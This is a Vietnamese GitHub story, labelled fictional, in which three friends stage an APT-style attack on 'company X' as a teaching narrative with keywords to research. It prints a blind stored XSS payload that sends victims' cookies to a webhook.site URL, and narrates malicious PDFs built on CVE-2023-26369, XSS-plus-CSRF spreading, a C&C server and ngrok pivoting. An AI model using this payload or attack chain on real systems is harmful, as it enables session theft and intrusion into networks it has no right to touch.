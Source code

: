 ## Lưu ý mọi nội dung dưới đây chỉ là hư cấu !

Bài viết sẽ đi xây dựng các lối tấn công thực tế các con đường khai thác APT.
Các kỹ thuật lỗ hổng sẽ được in đậm để các bạn có thể research.
cre: VHAE và những giấc mơ ;D

# Chương 1: Mở bài

### Phần 1: Bi kịch bắt đầu.

Chuyện bắt đầu cách đây 1 năm khi tôi là Vũ với công việc là phân tích mã độc. Bi kịch ập đến tôi ngay sau ngày sinh nhật tôi, bố tôi và mẹ tôi đều bị mất việc ở công ty X, công ty đó đã giải thích là do thu nhỏ quy mô kinh doanh nên phải cắt bớt nhân sự. Đêm đó tôi hơi buồn và ngồi research về công ty X và thấy công ty đó vẫn đang trong quá trình phát triển và quy mô cũng lớn nhưng lại chấm dứt hợp đồng với gia đình tôi, tôi dành ra nhiều ngày để nghiên cứu thì phát hiện ra sự thật là do bố mẹ tôi đã biết điều gì đó bí ẩn ở công ty và họ đã sa thải cả hai để giữ bí mật đó. Ngày đó tôi đã thực sự khó hiểu và bắt đầu đi tìm sự thật.

### Phần 2: Bắt tay hành động.

Câu truyện bắt đầu khi tôi liên hệ lại với 2 người bạn ở trường cũ là Hoàng ( Chuyên gia bảo mật website ) và Anh ( Một blackhat ) chúng tôi bắt đầu cuộc tấn công với công ty X và đặt tên nhóm là XTAE.

X - eXploit 
T - Technology 
A - Access 
E - Ethically

st1 : Chúng tôi đã bắt đầu tìm kiếm các thông tin về công ty X bao gồm nhân viên, quản lý, tổng giám đốc, hồ sơ tài chính và các báo cáo liên quan....

st2 : Sau khi đã có thông tin base chúng tôi bắt đầu rà quét thu thập các địa chỉ ip port, web và subdomain tại nhiều nơi như Shodan...

st3 : Chúng tôi phân công nhau tìm kiếm các lỗ hổng trên các thông tin thu thập được hầu hết chỉ là các lỗi dos và client.

Đã 3 ngày trôi qua và webhook của Vũ đã trả về dữ liệu về lỗ hổng XSS của một trang web tuyển dụng của công ty X.

![image](https://github.com/VHAE04/Story-in-dream/assets/89138607/044db157-83fc-4213-a7c2-a8d532b33fda)



### Phần 3: Manh mối đầu tiên.

Với dữ liệu đổ về từ XSS Hoàng đã chuẩn đoán đây là lỗ hổng blind stored xss với 

payload xss ban đầu của Vũ  : 
```
'"><img src=x onerror='window.location.replace("https://webhook.site/0634543a?data="+document.cookie)'>
```

![image](https://github.com/VHAE04/Story-in-dream/assets/89138607/43e2b79e-58a0-4129-9919-2752f7ffc7a7)

Với dữ liệu đồ về có lẽ ta đã thấy cookie của người dùng, chúng tôi nhanh chóng tiến hành thêm mã cookie xác thực vào trình duyệt để truy cập vào tài khoản kiểm duyệt đó nhưng không có gì xảy ra.
Tại sao ? đó là một câu nói xảy ra trong đầu 3 chúng tôi, liệu có phải các dữ liệu xác thực đã được đính `cờ httponly` ? 

Không trước đó Vũ đã kiểm tra trang web và nó xác thực người dùng qua TOKEN và không có cờ `httponly` vậy tại sao chúng tôi không truy cập được tài khoản đó qua cookie đã thu thập được.

Để làm rõ việc này Hoàng đã xây dựng lại mã khai thác xss để chúng tôi có thể thu thập được nhiều thông tin hơn ngoài việc thu thập cookie bằng document.cookie Hoàng đã thêm một vài trường vào payload cũ của Vũ

```
document.documentElement.outerHTML để thu thập toàn hộ html trang web
window.location.href để thu thập url trang web đang truy cập
```

![image](https://github.com/VHAE04/Story-in-dream/assets/89138607/2e8c8f00-d7dd-421e-afa4-058a4665a40c)


Sau khi dữ liệu được trả về chúng tôi đã biết nguyên nhân từ url 172.50.24.21 là một ip private vậy chúng tôi đoán trang web tuyendung.congtyx.com sẽ nhận dữ liệu về một máy chủ và các nhân sự sẽ truy cập vào một webserver nội bộ qua mạng công ty hoặc vpn để duyệt hồ sơ các thành viên - Điều này thực sự thú vị vì nó sẽ làm tăng tính bảo mật của website và tránh để lộ thông tin ra bên ngoài môi trường internet cơ bản sơ đồ sẽ như sau.

![image](https://github.com/VHAE04/Story-in-dream/assets/89138607/fb863d78-e281-4454-ab57-44959f0b9512)

Vậy không có quyền truy cập vào private vậy thì chúng tôi lấy thêm được dữ liệu gì từ lỗ hổng này. Kiểm tra mã html thu thập được chúng tôi biết các ứng viên sẽ nộp hồ sơ dạng pdf và nếu được duyệt hồ sơ sẽ được gửi lên cấp trên điều đặc biệt là các đường dẫn này ko preview mà sẽ tải thẳng về máy cá nhân và xem trên đó( tôi đã thử các lỗ hổng File upload vulnerabilities nhưng server chỉ cho lưu file pdf và lưu trong cdn) .Ý tưởng ban đầu của chúng tôi sẽ ghi đè mã html khi nhân sự tải xuống file pdf của tôi thay vì đó là pdf trên webserver thì đó là mội loại virut tôi cài cắm vào, tôi phân chia cho Anh thiết kế `máy chủ c&c` để quản lý các PC mà chúng tôi đã takeover.

1 ngày, 2 ngày, 1 tuần, 2 tuần vẫn chưa thấy phải hồi gì chúng tôi đã có rất nhiều câu hỏi: 

Liệu nhân sự đó không mở file pdf virut của tôi ? 

Các máy tính đã có diệt virut mới và xoá file của tôi ?

Code của tôi không hoạt động ?

Máy chủ cá nhân không cho phép tải các file khác ? 


Trong nhiều ngày chúng tôi đã osint nhiều thông tin về công ty và biết rất nhiều người dùng Adobe Acrobat tôi liền liên hệ cho Anh để tìm hiểu thêm về các lỗ hổng zeroday về một phần mềm này với một dân ngầm như Anh đã cho tôi ngay POC mới nhất về `CVE-2023-26369` tôi tiến hành xây dựng mã khai thác theo cve mà Anh cung cấp cùng lúc đó Hoàng kết hợp lỗi `XSS và CSRF` để tự tiến hành tự động xác nhận kiểm duyệt hồ sơ của tôi lên cấp trên để có thể lây lan được nhiều ngừoi hơn.


### Phần 3: Tia sáng cuối con đường:

Sau nhiều ngày chúng tôi đã thử nhiều cách và bùm có một pc kết nối đến chúng tôi và có chính là nhân viên thungoc.

Chúng tôi tiến hành xây dựng một proxy ngrok cho phép chúng tôi truy cập trang web nội bộ ngoài internet và phân công nhiệm vụ Hoàng sẽ tiến hành tìm kiếm thêm các lỗ hổng trong web nội bộ, tôi và Anh sẽ thực hiện rà soát các dải mạng private và tìm cách khai thác chúng....

![image](https://github.com/VHAE04/Story-in-dream/assets/89138607/2806ebd9-f64a-4dbf-aa0e-2c873ab0b52b)


hết chương 1:
các keyword : 
- CVE-2023-26369
- XSS 
- CSRF
- Máy chủ c&c
- Ngrok proxy
- osint
- shodan
- File upload vulnerabilities
- cdn

Nếu các bạn thích về chủ đề này hay thì mình sẽ làm típ hehe ;()
